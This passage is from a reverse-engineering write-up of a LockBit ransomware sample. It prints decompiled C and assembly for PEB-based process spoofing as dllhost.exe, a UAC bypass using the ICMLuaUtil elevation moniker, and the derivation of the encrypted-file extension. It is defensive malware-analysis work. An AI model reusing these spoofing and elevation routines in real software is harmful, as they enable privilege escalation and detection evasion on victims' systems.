		This function retrieves the [`ProcessEnvironmentBlock`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/pebteb/peb/index.htm) with the function `return_peb_func()`, which retrieves specific data at `0x10`, that is the parameter `RTL_USER_PROCESS_PARAMETERS *ProcessParameters` a pointer to a [`RTL_USER_PROCESS_PARAMETERS`](https://www.vergiliusproject.com/kernels/x86/windows-10/22h2/_RTL_USER_PROCESS_PARAMETERS) structure that contains, as the name states, important parameters from the process. If we look at the structure for the offset `0x44` that accesses a specific value at the `struct _UNICODE_STRING CommandLine` that starts at the `0x40` offset, which, looking at the [`_UNICODE_STRING`](https://www.vergiliusproject.com/kernels/x86/windows-10/22h2/_UNICODE_STRING) it's looking for the `WCHAR* Buffer` (`0x40 + 0x04 = 0x44`) that contains the command-line string for our process with the parameters that it was invoked with, so it seems that LockBit will look if it has any argument. This is done this way to avoid standard APIs, like [`GetCommandLineW`](https://learn.microsoft.com/en-us/windows/win32/api/processenv/nf-processenv-getcommandlinew), because it's more likely to trigger alerts by behavioural analysis.
```c
undefined4 FUN_00401640(void)
{
  void *peb;
  peb = return_peb_func(); // Obtain the ProcessEnvironmentBlock pointer
  // Obtain our process command line
  return *(undefined4 *)(*(int *)((int)peb + 0x10) + 0x44);
}
```
.
		Based on this, we will rename the function to `retrieve_process_commandline_from_peb`:
		<div align="center"></div>
	- spoof_peb_imagepath_commandline_to_dllhost (FUN_0040b7d0):
		The function first allocates three memory regions using [`NtAllocateVirtualMemory`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory), each of `0x1000` bytes (4096), with flag `0x3000` (which is `MEM_COMMIT | MEM_RESERVE`).
		According to [`VirtualAlloc flags`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc), `MEM_COMMIT` allocates physical memory (RAM or pagefile), while `MEM_RESERVE` just reserves a range of virtual addresses.
		It allocates:
			- `DAT_0042587c` → Will store the decoded string `"dllhost.exe"`.
			- `DAT_00425878` → Will store the quoted full path `"C:\Windows\System32\dllhost.exe"`.
			- `DAT_00425874` → Will store the unquoted full path `C:\Windows\System32\dllhost.exe`.
		Then it calls `retrieve_system32_path_func()` to store the path `C:\Windows\System32` into `DAT_00425874`, and uses `add_backslash_unicodestring_missing()` to add the final backslash if missing; it will be analysed after this function because I analysed it previously to make this function have sense.
		After that, it fills `block_buffer` with 6 obfuscated DWORDs. When passed to `decode_n_blocks_w_mask_func()`, it decodes them into the string `"dllhost.exe"` using the XOR mask `0x10035FFF` (documented earlier). 
		The decoded string is copied into `DAT_0042587c`, and concatenated to the System32 path stored in `DAT_00425874`, resulting in the full path to `"dllhost.exe"`.  
		Then it builds a quoted version and stores it into `DAT_00425878`.
		It then calls `return_peb_func()` to get a pointer to the [`PEB`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/pebteb/peb/index.htm), and enters a critical section using [`RtlEnterCriticalSection`](https://ntdoc.m417z.com/rtlentercriticalsection), which locks access to `PEB->ProcessParameters` using the lock at offset `0x1C` (`FastPebLock`).  
		At offset `0x10`, it gets the pointer to the [`RTL_USER_PROCESS_PARAMETERS`](https://www.vergiliusproject.com/kernels/x86/windows-10/22h2/_RTL_USER_PROCESS_PARAMETERS) structure.
		Then it replaces the old pointer of:
			- `ImagePathName` (offset `+0x38`) with the full path to `dllhost.exe` (unquoted).
			- `CommandLine` (offset `+0x40`) with the quoted full path.
		This is done with two calls to [`RtlInitUnicodeString`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlinitunicodestring), which initialises a Unicode string structure from a wide string pointer.
		After that, it exits the critical section with [`RtlLeaveCriticalSection`](https://ntdoc.m417z.com/rtlleavecriticalsection).
		Finally, it calls [`LdrEnumerateLoadedModules`](https://ntdoc.m417z.com/ldrenumerateloadedmodules) with `0x40b788` as the callback and the `PEB` as context. 
		The function likely triggers a COM or internal structure refresh to reflect the spoofed process name, completing the process spoofing, because [`LdrEnumerateLoadedModules`](https://ntdoc.m417z.com/ldrenumerateloadedmodules) checks just modules.
		This spoofing allows it to host and execute COM objects as **dllhost.exe** to make it seem trustworthy, based on this [`article`](https://www.ired.team/offensive-security/defense-evasion/masquerading-processes-in-userland-through-_peb). In MITRE ATT&CK this is the [`Process Argument Spoofing T1564/010`](https://attack.mitre.org/techniques/T1564/010/).

```c
void FUN_0040b7d0(void)
{
  block_buffer[6] = 0x1000; // set allocation size to 0x1000 bytes (4096)
  // alloc heap for decoded command
  NtAllocateVirtualMemory(-1, &DAT_0042587c, 0, block_buffer + 6, 0x3000, 4);
  // check if allocation successful
  if (DAT_0042587c != 0) { // alloc heap for quoted full command line              
    NtAllocateVirtualMemory(-1, &DAT_00425878, 0, block_buffer + 6, 0x3000, 4);
    // check if allocation successful    
    if (DAT_00425878 != (short *)0x0) { // alloc heap for System32 path
      NtAllocateVirtualMemory(-1, &DAT_00425874, 0, block_buffer + 6, 0x3000, 4);
      // check if allocation successful
      if (DAT_00425874 != (short *)0x0) {
        retrieve_system32_path_func(DAT_00425874); // get C:\Windows\System32 path
        // append '\' if not present
        add_backslash_unicodestring_missing((int)DAT_00425874);
        // Obfuscated data (dllhost.exe)
        block_buffer[0] = 0xef90a064;
        block_buffer[1] = 0xef94a06c;
        block_buffer[2] = 0xef8fa06f;
        block_buffer[3] = 0xefd2a074;
        block_buffer[4] = 0xef84a065;
        block_buffer[5] = 0xeffca065;
        decode_n_blocks_w_mask_func(block_buffer, 6); //deobfuscate dllhost.exe
        wcscpy(DAT_0042587c, block_buffer); // copy decoded dllhost.exe to heap
        wcscat(DAT_00425874, block_buffer); // append dllhost.exe to path 
									        // C:\Windows\System32\dllhost.exe
        dst_ptr = DAT_00425878;    // destination pointer for the quoted full path
        src_ptr = DAT_00425874;    // system32 + dllhost.exe
        *DAT_00425878 = 0x22;      // write initial '"'
        str_len = wcslen(src_ptr); // get length of full path
        // Put path to dllhost.exe (C:\Windows\System32\dllhost.exe) between quotes
        for (; dst_ptr = dst_ptr + 1, str_len != 0; str_len--) {
          *dst_ptr = *src_ptr;     // copy WCHARs one by one
          src_ptr = src_ptr + 1;
        }
        *dst_ptr = 0x22; // write closing '"'
        peb_ptr = return_peb_func(); // get pointer to PEB
        // lock access with RTL_CRITICAL_SECTION *FastPebLock from PEB
        RtlEnterCriticalSection(*(DWORD *)((int)peb_ptr + 0x1c));
        // get pointer to ProcessParameters  
        proc_param = *(int *)((int)peb_ptr + 0x10); 
        // set ImagePathName = C:\Windows\System32\dllhost.exe
	    RtlInitUnicodeString(proc_param + 0x38, DAT_00425874);                             // set CommandLine = "C:\Windows\System32\dllhost.exe"
        RtlInitUnicodeString(proc_param + 0x40, DAT_00425878);                             // unlock access
        RtlLeaveCriticalSection(*(DWORD *)((int)peb_ptr + 0x1c));                         // possibly related to cleanup or checks
        LdrEnumerateLoadedModules(0, 0x40b788, peb_ptr); 
      }
    }
  }
  return;
}
```
.
		We can confirm that it successfully retrieves the System32 path, with a backslash at the end, and deobfuscates the string `dllhost.exe`.
		<div align="center"></div>
		Then it appends `dllhost.exe` to the System32 path.
		<div align="center"></div>
		Then puts the Unicode string complete path to dllhost.exe between quotes at `DAT_00425878`.
		<div align="center"></div>
		With Process Hacker, if we look after [`LdrEnumerateLoadedModules`](https://ntdoc.m417z.com/ldrenumerateloadedmodules) execution, we can see that the process is spoofing the command line of `dllhost.exe`.
		<div align="center"></div>
		- add_backslash_unicodestring_missing (FUN_004016c0)
			This function takes `param_1` and goes through the whole list character by character (2 bytes each, because they are `WCHAR`) until it finds the backslash `\` or the null terminator `\0`,  in this case it will append the backslash.
```assembly
...
CMP        dword ptr [EBP + param_1], 0x0   ; if input pointer is NULL
JZ         LAB_004016e9                     ; skip if null
XOR        EAX, EAX                         ; EAX = 0 (used as index)
MOV        EBX, dword ptr [EBP + param_1]   ; EBX = param_1 (unicode string)
JMP        LAB_004016d3                     ; jump to loop condition
	LAB_004016d2:
INC        EAX                              ; EAX++
	LAB_004016d3:
CMP        word ptr [EBX + EAX*2], 0x0      ; check if WCHAR is null terminator
JNZ        LAB_004016d2                     ; loop until end of string

CMP        word ptr [EBX + EAX*2 - 2], 0x5c ; check if last WCHAR is '\'
JZ         LAB_004016e9                     ; if yes, skip append
MOV        dword ptr [EBX + EAX*2], 0x5c    ; write '\' and null terminator (DWORD)
	LAB_004016e9:
...
RET        0x4                              ; return

```
.
			Because the function makes sure that the passed Unicode string ends with a backslash, if not appends it, we will rename the function to `add_backslash_unicodestring_missing`:
			<div align="center"></div>
		Based on all this, because it spoofs `ImagePathName` and `CommandLine` from **dllhost.exe** at the [`ProcessEnvironmentBlock`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/pebteb/peb/index.htm) I will rename the function to `spoof_peb_imagepath_commandline_to_dllhost`:
		<div align="center"></div>
	- bypass_uac_icmluautil_spoof (FUN_0040b944):
		This function deobfuscates a large block of data using the previously documented function `decode_n_blocks_w_mask_func`. The first 4 DWORDs correspond to an obfuscated **IID** (Interface ID) for the COM object, and the next 0x22 DWORDs decode into the following [`moniker`](https://learn.microsoft.com/en-us/windows/win32/com/monikers) string:
		``Elevation:Administrator!new:{3E5FC7F9-9A51-4367-9063-A120244FBEC7}``. This This moniker corresponds to the COM object **`ICMLuaUtil`**, which is known to be exploitable to bypass UAC. It is resolved and instantiated using the function [`CoGetObject`](https://learn.microsoft.com/en-us/windows/win32/api/objbase/nf-objbase-cogetobject), passing the moniker, the IID, and bind options (set up with `memset` and size = `0x24`).
		The technique is documented (in Chinese) in this [`GitHub repo`](https://github.com/0xlane/BypassUAC), and officially implemented in the [`UACME project`](https://github.com/hfiref0x/UACME) by hfiref0x.
		Additionally, this function is strongly related to `spoof_peb_imagepath_commandline_to_dllhost`, which spoofs the process's identity in memory by modifying the `PEB->ProcessParameters->ImagePathName` and `CommandLine` to look like `"C:\Windows\System32\dllhost.exe"`.  
		That spoof ensures the process appears legitimate when calling `CoGetObject` with a privileged COM moniker, improving its success and avoiding UAC prompts or detection by security solutions.
		To allow programs with low privileges to perform high-privileged-required actions Microsoft designed a method for these programs to call COM objects and execute high-privilege actions temporarily. This is achieved by using a moniker `Elevation:Administrator!new:{CLSID}`. However, not all services have this capability, and two conditions must be met to make it work ([`Source`](https://learn.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)):
			1. At the key `HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{CLSID>\Elevation}` the value `Enabled` must be set to `1` to be an elevated COM object.
			2. The CLSID must be included in `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\UAC\COMAutoApprovalList` to have automatic approval by the UAC.
		We can search this CLSID under `\HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{3E5FC7F9-9A51-4367-9063-A120244FBEC7}\Elevation` to see that it's an elevated object.
		<div align="center"></div>
		<div align="center"></div>
		And at `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\UAC\COMAutoApprovalList` we can see it has automatic approval in UAC:
		<div align="center"></div>
    
```c
void FUN_0040b944(undefined4 param_1)
{
  // obfuscated COM interface ID (IID) 6EDD6D74-C007-4E75-B76A-E5740995E24C
  local_c0[0x22] = 0x8121cd74;                 
  local_c0[0x23] = 0xa1896007;
  local_c0[0x24] = 0x9b19cab7;
  local_c0[0x25] = 0xa31e3509;
  // decode 4 blocks → IID for ICMLuaUtil
  decode_n_blocks_w_mask_func(local_c0 + 0x22,4);   
  // obfuscated moniker string: 
  //    "Elevation:Administrator!new:{3E5FC7F9-9A51-4367-9063-A120244FBEC7}"
  local_c0[0]  = 0xef90a045;
  local_c0[1]  = 0xef8aa065;
  local_c0[2]  = 0xef88a061;
  local_c0[3]  = 0xef93a069;
  local_c0[4]  = 0xefc6a06e;
  local_c0[5]  = 0xef98a041;
  local_c0[6]  = 0xef95a06d;
  local_c0[7]  = 0xef95a06e;
  local_c0[8]  = 0xef88a073;
  local_c0[9]  = 0xef9da072;
  local_c0[10] = 0xef93a074;
  local_c0[0xb] = 0xefdda072;
  local_c0[0xc] = 0xef99a06e;
  local_c0[0xd] = 0xefc6a077;
  local_c0[0xe] = 0xefcfa07b;
  local_c0[0xf] = 0xefc9a045;
  local_c0[0x10] = 0xefbfa046;
  local_c0[0x11] = 0xefbaa037;
  local_c0[0x12] = 0xefd1a039;
  local_c0[0x13] = 0xefbda039;
  local_c0[0x14] = 0xefcda035;
  local_c0[0x15] = 0xefc8a02d;
  local_c0[0x16] = 0xefcaa033;
  local_c0[0x17] = 0xefd1a037;
  local_c0[0x18] = 0xefcca039;
  local_c0[0x19] = 0xefcfa036;
  local_c0[0x1a] = 0xefbda02d;
  local_c0[0x1b] = 0xefcea031;
  local_c0[0x1c] = 0xefcea030;
  local_c0[0x1d] = 0xefc8a034;
  local_c0[0x1e] = 0xefbea046;
  local_c0[0x1f] = 0xefbfa045;
  local_c0[0x20] = 0xef81a037;
  local_c0[0x21] = 0xeffca000;
  // decode moniker string (0x22 blocks)
  decode_n_blocks_w_mask_func(local_c0,0x22);    
  (*memset)(local_c0 + 0x26, 0, 0x24); // clear bind options struct
  local_c0[0x26] = 0x24;               // set struct size (cbStruct = 0x24)

  local_14 = 4;                        // CLSCTX_LOCAL_SERVER
  
  // Call elevated COM object via moniker
  (*CoGetObject)(local_c0,         // moniker string: elevation COM target
                 local_c0 + 0x26,  // bind options struct (BIND_OPTS)
                 local_c0 + 0x22,  // decoded IID pointer
                 param_1);         // output pointer to ICMLuaUtil*
  return;
}
```
.
		The attacker tricks the system into thinking the malware is **dllhost.exe**, then uses a well-known **elevation COM moniker** to get a **privileged COM object** (`ICMLuaUtil`), which it can use to **launch elevated processes without UAC prompts**. 
		Based on this, we will rename the function to `bypass_uac_icmluautil_spoof`:
		<div align="center"></div>
	- quote_imagepath_and_append_args (FUN_00409740)
		This function checks if `param_1`, `PEB->ProcessParameters->CommandLine`, the path is stored with quotes. If it's not, then it will copy `param_2`, `PEB->ProcessParameters->ImagePathName`, between quotes into a new buffer at the process heap created with the function allocate_data_processheap_antidbg. Then it will iterate through the `param_1` string until it finds a space, copying what is after the space, which are the arguments. In the end it returns the pointer to the created buffer with the `PEB->ProcessParameters->ImagePathName` quoted with the arguments of `PEB->ProcessParameters->CommandLine`.
```c
short * FUN_00409740(short *param_1, short *param_2)
{
  // check if CommandLine starts with quote
  if (*param_1 != 0x22) {
    len_cmdline = (*wcslen)(param_1);  // length of CommandLine
    len_imgpath = (*wcslen)(param_2);  // length of ImagePathName
    // allocate buffer for: "ImagePathName" + space + arguments from CommandLine
    buffer = (short *)allocate_data_processheap_antidbg((len_cmdline + len_imgpath) * 2 + 2);
    if (buffer != (short *)0x0) {
      *buffer = 0x22;                // opening quote (")
      ptr_dst = buffer;
      // copy ImagePathName into buffer
      while (true) {
        ptr_tmp1 = ptr_dst + 1;
        if (*param_2 == 0) break;
        *ptr_tmp1 = *param_2;
        param_2 = param_2 + 1;
        ptr_dst = ptr_tmp1;
      }
      *ptr_tmp1 = 0x22;             // closing quote (")
      ptr_tmp1 = ptr_dst + 3;
      ptr_dst[2] = 0x20;            // add space ( )
      ptr_dst = param_1;
      do {
        ptr_tmp2 = ptr_dst + 1;
        wchar_tmp = *ptr_dst;
        // if space found → copy rest (args) from CommandLine
        if (wchar_tmp == 0x20) {
          ptr_dst = ptr_dst + 2;
          while (true) {
            ptr_tmp2 = ptr_dst + 1;
            if (*ptr_dst == 0) break;
            *ptr_tmp1 = *ptr_dst;
            ptr_dst = ptr_tmp2;
            ptr_tmp1 = ptr_tmp1 + 1;
          }
          wchar_tmp = 0;
        }
        ptr_dst = ptr_tmp2;
        param_1 = buffer;       // return reconstructed command line
      } while (wchar_tmp != 0);
    }
  }
  return param_1;
}
```
.
		Because the function makes sure to return a buffer with the pathfile at `PEB->ProcessParameters->CommandLine` between quotes with its original arguments we will rename the function to `quote_imagepath_and_append_args`:
		<div align="center"></div>
	If we execute it, then LockBit will have `PEB->ProcessParameters->ImagePathName` as `C:\Windows\System32\dllhost.exe` and `PEB->ProcessParameters->CommandLine` as `"C:\Windows\System32\dllhost.exe"`:
	- `PEB->ProcessParameters->ImagePathName`:
		<div align="center"></div>
	- `PEB->ProcessParameters->CommandLine`:
		<div align="center"></div>
	And after it executes the `ShellExec` function from the **ICMLuaUtil** interface to relaunch itself with its original command-line arguments, elevating the new process to a higher privilege, because shortly after this, as we commented before, the process is terminated with [`NtTerminateProcess`](https://ntdoc.m417z.com/ntterminateprocess), to let the new version with privileges execute the rest of the function.
	<div align="center"></div>
	Based on all this, we will rename it to `bypass_uac_icmluautil_spoof_peb_and_relaunch`:
	<div align="center"></div>
  
So after it bypasses UAC by spoofing **dllhost.exe** and exploiting the **ICMLuaUtil** interface, it relaunches itself with elevated permissions and terminates the process with [`NtTerminateProcess`](https://ntdoc.m417z.com/ntterminateprocess). In the second execution it will repeat everything until now, but it will not enter to the function `bypass_uac_icmluautil_spoof_peb_and_relaunch()`, as it now has enough privileges, so it will `DAT_00425178` with the result of the function `FUN_00406d40()` that we will analyse now.
<div align="center"></div>

---

Now we will need to patch the executable by skipping the functions `bypass_uac_icmluautil_spoof_peb_and_relaunch()` and [`NtTerminateProcess`](https://ntdoc.m417z.com/ntterminateprocess) to not relaunch the executable, to avoid infecting our machine and also to continue analysing the data.
This time we will patch in real time the debugged program, in case we want LockBit to infect our virtual machine to see how the machine looks in the end.
First, we will need to select both functions in x32dbg:
<div align="center"></div>

Right-click and go to `Binary > Fill with NOPs`, and click `OK` in the next window.
<div align="center"></div>

<div align="center"></div>

With this way we can modify the program in real time to our convenience, skipping the bypass and the process termination to see the rest of the function:
<div align="center"></div>

Also, if we want it, we can export the modified program by going to `File > Patch file...`:
<div align="center"></div>

There we will click Patch File and export it to wherever we want:
<div align="center"></div>

<div align="center"></div>

Also, we can export the patch from the `Export` option to import the patch wherever we need it without modifying the executable.

---

- get_file_extension_guid_md5_b64 (FUN_00406d40):
	Before analysing this function, we first analysed the nested functions in order to make the functionality of this function clearer, which can be seen after the analysis of this function.
	The function is used to generate a wide-character string starting with a dot (`.`) followed by a custom Base64-encoded hash. It allocates 24 bytes on the heap and stores the final result there.
	First, it initialises the MD5 hashing context and then calls `get_guid_w_rsa_md5hash`, which internally generates a GUID-style structure based on a previously hashed RSA key (the same one used during payload preparation). That GUID is then hashed again with MD5, and the result is encoded using a Base64 encoder. Then the encoded result is truncated to the first nine bytes by replacing the next byte with a null terminator.
	Then the Base64 string is copied while being slightly modified to avoid certain characters, until the null terminator:
	- `+` is replaced by `x`
	- `/` is replaced by `i`
	- `=` is replaced by `z`
	These substitutions are likely done to make the string filesystem compatible, avoiding symbols that could break parsing or command-line usage.
```assembly
...
PUSH 0x18                   ; 0x18 bytes (24), buffer size
CALL allocate_data_processheap_antidbg ; EAX = pointer to heap buffer
MOV EBX, EAX                ; EBX = pointer to heap buffer
TEST EBX, EBX               ; check if it's NULL
JZ exit                     ; if allocation failed, exit
MOV word ptr [EBX], 0x2e    ; set first wchar to '.' (wide-character)
LEA EDI, [EBX + 0x2]        ; EDI = pointer after initial wchar (write position)
LEA EAX, [EBP - 0x68]       ; EAX = pointer to store MD5 context (MD5_CTX)
PUSH EAX
CALL [MD5Init]              ; initialize MD5 to perform MD5 operations

LEA EAX, [EBP - 0xec]       ; EAX = buffer where get_guid_w_rsa_md5hash writes
PUSH EAX
CALL get_guid_w_rsa_md5hash ; fill buffer wit GUID based in the RSA key digest
TEST EAX, EAX               ; if returned length == 0
JZ LAB_00406ddf             ; abort if no data
LEA EAX, [EAX*2]            ; convert wchar count to byte count
PUSH EAX
LEA EAX, [EBP - 0xec]       ; pointer to buffer content
PUSH EAX
LEA EAX, [EBP - 0x68]       ; MD5_CTX again
PUSH EAX
CALL [MD5Update]            ; hash the buffer content
LEA EAX, [EBP - 0x68]       ; MD5_CTX again
PUSH EAX
CALL [MD5Final]             ; finalize MD5 and write digest
LEA ESI, [EBP - 0x10c]      ; ESI = output buffer for Base64 string
PUSH ESI
PUSH 0x10                   ; length of digest (16 bytes)
LEA EAX, [EBP - 0x10]       ; EAX = pointer to digest
PUSH EAX
CALL base64_encoder_func    ; convert MD5 digest to Base64 and store in ESI
MOV byte ptr [ESI + 9], 0   ; truncate the encoded string by putting a
                            ; null-terminate after the first 9 bytes
XOR EAX, EAX
; Replace special symbols ('+', '/', '=') from base64 encoded string to letters
	LAB_00406dbc:
LODSB ESI                   ; AL = *ESI, increment ESI
TEST AL, AL                 ; check null terminator
JNZ LAB_00406ddf            ; if 0, end of string
STOSW ES:EDI
JMP   LAB_00406ddf
	LAB_00406dc5:
CMP AL, '+'                 ; check for '+' in base64
JNZ LAB_00406dcd
MOV AL, 'x'                 ; replace '+' with 'x'
JMP LAB_00406ddb
	LAB_00406dcd:
CMP AL, '/'
JNZ LAB_00406dd5
MOV AL, 'i'                 ; replace '/' with 'i'
JMP LAB_00406ddb
	LAB_00406dd5:
CMP AL, '='
JNZ LAB_00406ddb
MOV AL, 'z'                 ; replace '=' with 'z'
	LAB_00406ddb:
STOSW ES:EDI                ; write final null wchar
JMP LAB_00406dbc
	LAB_00406ddf:
MOV EAX, EBX                ; return pointer to buffer
...
RET
```
.
	-  get_guid_w_rsa_md5hash (FUN_00406b48):
		The function gets the MD5 context with [`MD5Init`](https://nxmnpg.lemoda.net/3/MD5) to be able to perform MD5 hashing operations, using [`MD5Update`](https://nxmnpg.lemoda.net/3/MD5) to hash the suspected RSA key we loaded in the function `prepare_payload_and_config_data_func()` at `DAT_00424f70`. Then with [`MD5Final`](https://nxmnpg.lemoda.net/3/MD5) we finalise the MD5 context and get the digest. After that, it will load 26 blocks of obfuscated data to be deobfuscated with the function `decode_n_blocks_w_mask_func()` which will deobfuscate a string with placeholders to be replaced with the digest of the suspected RSA key and stored at `param_1`, the passed parameter, with [`_swprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170); it will return the stored bytes of the operation.
```assembly
; Initialize MD5 hashing context
LEA  EAX=>local_6c,[EBP + -0x68]
PUSH EAX
CALL dword ptr [MD5Init]
; Hash the 128 bytes of the suspected RSA key using MD5Update
PUSH 0x80
PUSH DAT_00424f70 ; suspected RSA key from prepare_payload_and_config_data_func()
LEA  EAX=>local_6c,[EBP + -0x68]
PUSH EAX
CALL dword ptr [MD5Update]
; Finalize MD5 and get the digest
LEA  EAX=>local_6c,[EBP + -0x68]
PUSH EAX
CALL dword ptr [MD5Final]
LEA  EBX=>local_14,[EBP + -0x10] ; EBX = where MD5 digest is stored
; Store 26 DWORDs of obfuscated data into a temporary buffer
LEA  EAX, EAX=>local_d4,[EBP + 0xffffff30]
MOV  dword ptr [EAX]=>local_d4], 0xefd9a07b
MOV  dword ptr [EAX + local_d0],0xefc4a030
...
MOV  dword ptr [EAX + local_70],0xeffca000
; Deobfuscate those 26 blocks using a custom decoding function
PUSH 0x1a               ; number of blocks (26)
PUSH EAX                ; pointer to obfuscated data
CALL decode_n_blocks_w_mask_func
; After deobfuscation, format the string using the MD5 digest
; Push each byte of the MD5 digest as an integer argument for swprintf
MOVZX EAX, byte ptr [EBX + local_5]
PUSH EAX
MOVZX EAX, byte ptr [EBX + local_6]
PUSH EAX
...
MOVZX EAX, byte ptr [EBX + local_c]
PUSH EAX
PUSH 0x0
PUSH word ptr [EBX + local_e]]
PUSH 0x0
PUSH word ptr [EBX + local_10]
PUSH dword ptr [EBX]=>local_14
; Final argument is a pointer to the deobfuscated format string
LEA  EAX=>local_d4,[EBP + 0xffffff30]
PUSH EAX
; param_1 is the output buffer where the result will be written
PUSH dword ptr [EBP + param_1]
CALL dword ptr [_swprintf]           ; write formatted wide string into param_1
...
RET 0x4
```
.
		If we look at x32dbg, we can see that the MD5 hash of the suspected RSA key is used further to put values at the placeholders at [`_swprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170):
		<div align="center"></div>
		 The deobfuscated data is `{%08X-%04X-%04X-%02X%02X-%02X%02X%02X%02X}`, which, based on [`Microsoft Documentation`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/format-specification-syntax-printf-and-wprintf-functions?view=msvc-170) is a placeholder for the later [`_swprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170) invocation:
			- `%08X`: 8 hexadecimal digits (`DWORD`)
			- `%04X`: 4 hexadecimal digits (`WORD`)
			- `%02X`: 2 hexadecimal digits (`BYTE`)
		<div align="center"></div>
		After invoking the [`_swprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170) function, it retrieves, based on the format, a custom **GUID**/**UUID**, a global identifier, in a hidden way, by hashing with MD5 the suspected RSA key and using an obfuscated string with placeholders for  [`_swprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170).
		The retrieved **GUID**/**UUID** is `{E6E20B0C-8FEB-C8BF-1272-81D078764C04}`:
		<div align="center"></div>
		Based on this functionality, we will rename the function to `get_guid_w_rsa_md5hash`:
		<div align="center"></div>
	- base64_encoder_func (FUN_00401404):
		This function performs a Base64-like encoding using a hardcoded alphabet stored in `local_48`, which includes the standard 64 characters: `"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"`. The encoding loop reads 3 bytes from the input buffer `param_3`, then splits those 3 bytes into four 6-bit segments using bitmask and shift operations. These segments are used as indices into `local_48` to extract 4 encoded bytes. The result is stored in the output buffer `param_5`. If the input is not a multiple of 3, `'='` padding is added manually at the end. Finally, it null-terminates the result and returns the encoded string length. If we look at the C implementation, [`base64.c`](https://cvs.savannah.gnu.org/viewvc/gnulib/gnulib/lib/base64.c?view=markup&content-type=text%2Fvnd.viewcvs-markup&revision=HEAD) from the [`RFC 4648`](https://datatracker.ietf.org/doc/html/rfc4648#page-5) it creates a table with the same characters as the table.
```assembly
; Prepare base64 encoding table (`A-Z`, `a-z`, `0-9`, `+`, `/`)
LEA   EDI=>local_48, [EBP - 0x44]
MOV   EAX, 0x44434241 ; "ABCD"
STOSD ES:EDI
MOV   EAX, 0x48474645 ; "EFGH"
STOSD ES:EDI
...
MOV   EAX, 0x2F2B3938 ; "89+/"
STOSD ES:EDI
MOV ESI, [EBP + param_3]       ; ESI = input buffer
MOV EAX, [EBP + param_4]       ; EAX = input size
MOV EDI, [EBP + param_5]       ; EDI = output buffer
...
; Reads 3 bytes from the input and splits them into four 6-bit values
MOV AL, AL,byte ptr [ESI]              ; byte 1
MOV param_2,byte ptr [ESI + 0x1]       ; byte 2
MOV BL,byte ptr [ESI + 0x2]            ; byte 3
...
AND AH, 0x03        ; lowest 2 bits of byte 1
AND param_2, 0x0F   ; lowest 4 bits of byte 2
AND BH, 0x3F        ; lowest 6 bits of byte 3
SHR AL, 0x2         ; top 6 bits of byte 1
SHR param_2, 0x4    ; top 4 bits of byte 2
SHR BL, 0x6         ; top 2 bits of byte 3
SHL AH, 0x4         ; adjust bits for 2nd value
SHL param_2, 0x2    ; adjust bits for 3rd value
...
; The four 6-bit values are used as indices in the lookup table to obtain
; base64 characters
LEA ESI=>local_48,[EBP + -0x44]
MOV AL,byte ptr [param_2 + ESI*0x1]
MOV AH,byte ptr [param_1 + ESI*0x1]
MOV BL,byte ptr [param_2 + ESI*0x1]
MOV BH,byte ptr [param_1 + ESI*0x1]
; The values are packed (OR) into a DWORD (4 bytes) and stored at the output buffer
OR EAX, EBX
STOSD ES:EDI
...
; adds padding '=' if input size is not divisible by 3
	LAB_004014ea:
MOV byte ptr [EDI], 0x3D ; '='
INC EDI
...
	LAB_004014f3:
MOV EAX, EDI          ; EDI points at the end of the output buffer
MOV word ptr [EAX], 0 ; null-terminate the output string
SUB EAX, param_5      ; substract start from buffer → encoded length
...
RET 0xc   
```
.
		Because the function is a Base64 encoder function, we will rename it to `base64_encoder_func`:
		<div align="center"></div>
	If we debug it with x32dbg, we can see the following GUID loaded, that we have seen before:
	<div align="center"></div>
	And after hashing it with MD5 and encoding it with the function `base64_encoder_func()` it will look like this:
	<div align="center"></div>
	Then, nine bytes further, the encoded MD5 digest of the GUID is truncated by putting a null terminator:
	<div align="center"></div>
	Which at the end of the function will be normalised until the null terminator, preceded by the initial point at the heap buffer, which results in the next Unicode string `.AFfGdukAp`:
	<div align="center"></div>
	If we let the virtual machine be infected, making sure we have a snapshot and it is executed offline, we can see that the file extension of the encrypted files is `.AFfGdukAp`, so our suspicion that it could be the custom file extension when encrypting the files is true:
	<div align="center"></div>
